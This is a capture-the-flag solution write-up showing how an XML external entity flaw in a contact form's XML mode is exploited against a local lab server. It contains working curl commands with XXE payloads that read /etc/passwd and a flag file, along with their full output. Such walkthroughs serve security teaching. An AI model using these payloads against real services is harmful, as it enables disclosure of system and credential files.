# Solution

The backend system seems to be completely separate from the frontend HTML and JS (OK, it is served by the backend system when visiting root URL path).

The same backend system implements a contact form submission which supports three request format types: `json`, `xml` and `yaml`. From the three, the `xml` format type is the most interesting one to test for XML external entities.

```sh
$ curl http://localhost:8080/contact?type=xml -d '<!--?xml version="1.0" ?--><!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]><person><name>&ent;</name></person>' -i
HTTP/1.1 200 OK
Server: gunicorn
Date: Fri, 01 Oct 2021 14:34:51 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 1017

Thank you, Mr./Mrs. root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:999:999::/home/ctf:/bin/sh
! Our sales team will contact you shortly.
```

The external entities test is successful. In the `/etc/passwd` file one can observe that there is a `ctf` user that has its own home folder. It might need a little bit of guessing, but the test case is expected:

```sh
$ curl http://localhost:8080/contact?type=xml -d '<!--?xml version="1.0" ?--><!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/ctf/flag.txt"> ]><person><name>&ent;</name></person>' -i
HTTP/1.1 200 OK
Server: gunicorn
Date: Fri, 01 Oct 2021 14:36:14 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 111

Thank you, Mr./Mrs. ibctf{b3st-bus1n3ss_als0_r34ds_xt3rn4l-entitiez}
! Our sales team will contact you shortly.
```
